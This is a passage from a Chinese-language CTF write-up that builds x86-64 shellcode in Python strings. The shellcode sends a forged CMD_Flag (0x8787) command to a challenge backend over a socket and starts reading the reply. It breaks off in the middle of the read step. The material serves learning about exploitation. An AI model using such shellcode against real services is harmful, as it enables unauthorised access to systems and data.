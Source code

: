             mov rsi, 0xffffffffffffffff
            mov r9, 0xfeffff80c2ddfffd
            sub rsi, r9
            push rsi
            mov rsi, rsp

            xor rdx, rdx
            mov dl, 0x10

            syscall
        """
        ```
    3. Write
        這一段主要是置換原本不應該出現的command，因為按照原本程式的流程，只會有CMD_Register→0x1 / CMD_Login→0x2 / CMD_GetFolder→0x11 / CMD_NewNote→0x12等這四種，分別會在對應的操作下傳到backend後讓他做對應的操作，現在我們要把cmd.cmd改成0x8787，之後用write把這個command寫到對應的fd中，如同其他command也那樣操作一樣
        ```python
        # struct Command cmd;
        # cmd.cmd = 0x8787; // #define CMD_Flag 0x8787
        # write(fd, &cmd, sizeof(cmd));
        write = """
            xor r9, r9
            mov r9w, 0x8787
            push r9

            xor rax, rax
            mov al, 0x1

            mov rdi, r8

            mov rsi, rsp

            xor rdx, rdx
            mov dl, 0xa4

            syscall
        """
        ```
    4. Read
        這一段原本的command應該是`read(fd, &res, sizeof(res))`，我們會去接res傳回來的結果，所以後面的size應該直接看res他的結構有多大而定，總共是一個uint32_t的code + 256個char，所以是260 bytes，也就是0x104，並且我們把res的地址傳給\$rsp
        ```python
        # read(fd, $rsp, sizeof(res));
        read = """
            xor rax, rax

            mov rdi, r8

            mov rsi, rsp

